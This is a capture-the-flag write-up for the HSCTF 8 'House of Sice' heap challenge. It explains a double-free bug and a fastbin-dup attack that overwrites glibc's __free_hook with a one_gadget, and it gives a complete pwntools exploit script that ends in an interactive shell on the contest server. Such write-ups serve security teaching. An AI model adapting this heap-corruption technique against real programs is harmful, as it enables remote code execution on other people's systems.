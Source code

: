 ​House of Sice was a Heap Challenge from HSCTF 8  (2021).

It use libc-2.31.

executable was compiled with all protections, as you can see

![](https://imgur.com/7A8sAYr.png)

Well you have a menu where you can sell of buy Deets..

Basically you can allocate up to 16 blocs of 8 bytes, and choose their content which is a 64bit value.

One of the bloc can be allocated with calloc instead of malloc.

You can also free the bloc, and here is the vulnerability, there is no check if the bloc has already been freed,

and the bloc pointer in the index table , is not zeroed.  There is no edit function.

So basically it is a double free vulnerability.

The attack we will use is a classic one, called , fastbin dup

explained here:

[https://github.com/shellphish/how2heap/blob/master/glibc_2.31/fastbin_dup.c](http://)

or here:

[https://hackmd.io/@u1f383/Sy_2pqMAP#fastbin_dup](http://)

Basically we allocate 10 blocs, free 7 of them to fill a tcache line,

then we launch the double free attack, we free the bloc 8, then 9, then 8 again.. in this order..

one of the block will be found two times in the fastbin list , as you can see here:

![](https://imgur.com/xc4m2x4.png)

then we allocate two more tcache blocs.

then:

```
addc(libc.symbols['__free_hook'])

addm(0x51)

addm(onegadgets[1])
```

we allocate the double free bloc with calloc to be sure it is taken from fastbins, and set its value to address we want to write to (__free_hook),

it will be take as the fd/next pointer when the bloc will be allocate a second time..

then we allocate a bloc in between, and we reallocate the same bloc , this time malloc will give us a bloc at __free_hook address

we set the value of the last bloc to one onegadget in libc , that will be written to __free_hook

![](https://imgur.com/a07PCKt.png)

then we just called free on the bloc, which will call our onegadget...and we got SHELL !


```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.terminal = ['xfce4-terminal', '--title=GDB-Pwn', '--zoom=0', '--geometry=128x98+1100+0', '-e']
context.log_level = 'info'

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./house_of_sice')
libc = ELF('./libc-2.31.so')

host = args.HOST or 'house-of-sice.hsc.tf'
port = int(args.PORT or 1337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
source ~/gdb.plugins/gef/gef.py
continue
'''.format(**locals())

#===========================================================

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]

io = start()

io.recvuntil('deet: ', drop=True)
libc.address = int(io.recvuntil('\n', drop=True),16) - libc.symbols['system']
print('libc base = {:#x}'.format(libc.address))

onegadgets = one_gadget('libc.so.6', libc.address)

def addm(val):
  io.sendlineafter('> ', '1')
  io.sendlineafter('> ', '1')
  io.sendlineafter('> ', str(val))

def addc(val):
  io.sendlineafter('> ', '1')
  io.sendlineafter('> ', '2')
  io.sendlineafter('> ', str(val))

def free(idx):
  io.sendlineafter('> ', '2')
  io.sendlineafter('> ', str(idx))

for i in range(7):
 addm(0x41+i)

addm(0x48)
addm(0x49)
addm(0x4a)

for i in range(7): 
 free(i)

free(8)
free(9)
free(8)

addm(0x50)
addm(0x50)

addc(libc.symbols['__free_hook'])
addm(0x51)
addm(onegadgets[1])

pause()
free(0)

io.interactive()

```

*Nobodyisnobody,  still pwning things....*

